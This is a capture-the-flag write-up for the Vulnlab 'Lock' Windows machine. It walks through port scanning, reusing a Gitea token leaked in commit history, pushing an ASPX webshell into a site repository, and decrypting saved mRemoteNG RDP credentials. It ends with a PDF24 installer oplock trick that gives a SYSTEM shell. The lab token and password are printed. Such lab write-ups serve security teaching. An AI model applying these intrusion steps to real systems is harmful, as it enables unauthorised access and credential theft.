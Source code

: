 ```yaml
---
title: Lock Vulnlab (English)
image: /assets/img/Anexos/Máquina%20Lock.png
description: Down Vulnhab [Difuculty easy]
categories: [CTF,Vulnlab]
tags: [hacking,easy]
---
```




## Introduction
N/A
### Machine Description


- Name: Lock
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Lock](https://wiki.vulnlab.com/guidance/easy/lock)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Lock.pdf)




## Reconnaissance


```shell
 sudo nmap -sSCV --min-rate 5000 -p- --open -n -Pn 10.10.121.141 -oN scan1.txt
[sudo] password for belin: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 21:49 CEST
Nmap scan report for 10.10.121.141
Host is up (0.051s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Lock - Index
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2025-07-23T19:45:35
|_Not valid after:  2026-01-22T19:45:35
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2025-07-24T19:50:12+00:00
|_ssl-date: 2025-07-24T19:50:53+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-24T19:50:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.39 seconds
```
after the initial scan using `nmap`, we got that ports. 


> [!Info] 
> I should have done the scan again since it didn't report the port 3000 which is supposed to appear according to https://wiki.vulnlab.com/guidance/easy/lock xd. 

There's nothing interesting in the website, we can only notice that it seems to be a production software, that's why **gitea** may be important here. 


![](/assets/img/Anexos/Máquina%20Lock-10.png)

In gitea we can see one users who has a script in python which check the token and print the repos that the user has. So here we can check the commit history and it appears that someone forgot to delete their token:

![](/assets/img/Anexos/Máquina%20Lock-11.png)



What we can do now is use the actual script in order to get possible hidden repos with that token and we can see there's a hidden/private repo called website which is probably the website open on the port 80

```shell
❯ export GITEA_ACCESS_TOKEN=43ce39bb0bd6bc489284f2905f033ca467a6362f

❯ python test.py http://10.10.113.16:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Knowing this we can now clone that repo:
```shell
 git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@10.10.98.131:3000/ellen.freeman/website
```

## Explotation

Now I copy a apsx shell in the website repository
```shell
/usr/share/webshells/aspx/aspxshell.aspx
```

Then I commit and push the changes to the repo
```shell
git add .
git commit -m "pwn"
git push -u origin 
```

Finally, if we go to the page and we request for _/aspxshell.aspx_ we get the shell we previously upload. 
![](/assets/img/Anexos/Máquina%20Lock-12.png)
Now we can simply get a shell to our attack machine using https://www.revshells.com/ as the easiest way I use to use. 
## Privilege escaltion
Once in, in the Documents directory, we can see a config file for the mremoteng software installed which manage, among others, RDP connections, in this case, for the user _Gale.Dekarios_ in the target machine, so as it contains a protected variable, which is probably the key used to encrypt the pass, we search for a script in github or somewhere else in order to decrypt the password. 

```powershell
PS C:\users\ellen.freeman\Documents> type *
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

In this case I used this one https://github.com/gquere/mRemoteNG_password_decrypt 


```shell
❯ python3 mremoteng_decrypt.py ../content/config.xml
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

We got it! 

```shell
 xfreerdp /v:10.10.113.16 /u:gale.dekarios /p:ty8wnW9qCKDosXo6 /dynamic-resolution
```



Once in, we can realise that this machine uses thre PDF24 software, we can check the versión openning it in the settings field: 

![](/assets/img/Anexos/Máquina%20Lock-1.png)

I searched for the versión and it's vulnerable for privilage escalation, I use this poc => https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/

So basically I share `SetOpLock.exe` from https://github.com/googleprojectzero/symboliclink-testing-tools from my attack machine to the target machine

![](/assets/img/Anexos/Máquina%20Lock-2.png)

The vulnerability consist in executing the pdf24 msi installer which will open a invisible cmd as **SYSTEM** when it tries to write a log file. As we now the archive log it will write, we can use `SetOpLock.exe` in order to stop the invisible cmd executed by SYSTEM and get a shell as SYSTEM:

![](/assets/img/Anexos/Máquina%20Lock-3.png)

Once we get the invisible cmd locked thank to `SetOpLock.exe`, we go to propierties in order to get a help link and open the browser we want automatically as SYTEM 

![](/assets/img/Anexos/Máquina%20Lock-4.png)

![](/assets/img/Anexos/Máquina%20Lock-5.png)

Here `ctrl+o` to open the file explorer
![](/assets/img/Anexos/Máquina%20Lock-6.png)

We confirm that we have the privilages we wanted, 

![](/assets/img/Anexos/Máquina%20Lock-7.png)
then cmd here and we got the shell as SYSTEM!

![](/assets/img/Anexos/Máquina%20Lock-8.png)

![](/assets/img/Anexos/Máquina%20Lock-9.png)
